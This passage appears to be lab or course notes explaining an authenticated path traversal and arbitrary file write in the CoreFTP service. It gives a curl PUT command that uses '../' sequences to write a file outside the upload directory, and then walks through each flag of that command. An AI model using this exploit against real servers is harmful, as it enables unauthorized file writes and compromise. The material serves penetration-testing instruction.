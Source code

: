 https://www.exploit-db.com/exploits/50652
## Authenticated Path Traversal & Arbitrary File Write
This FTP service uses an HTTP `POST` request to upload files. However, the CoreFTP service allows an HTTP `PUT` request, which we can use to write content to files.

```shell
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

We create a raw HTTP `PUT` request (`-X PUT`) with basic auth (`--basic -u <username>:<password>`), the path for the file (`--path-as-is https://<IP>/../../../../../whoops`), and its content (`--data-binary "PoC."`) with this command. Additionally, we specify the host header (`-H "Host: <IP>"`) with the IP address of our target system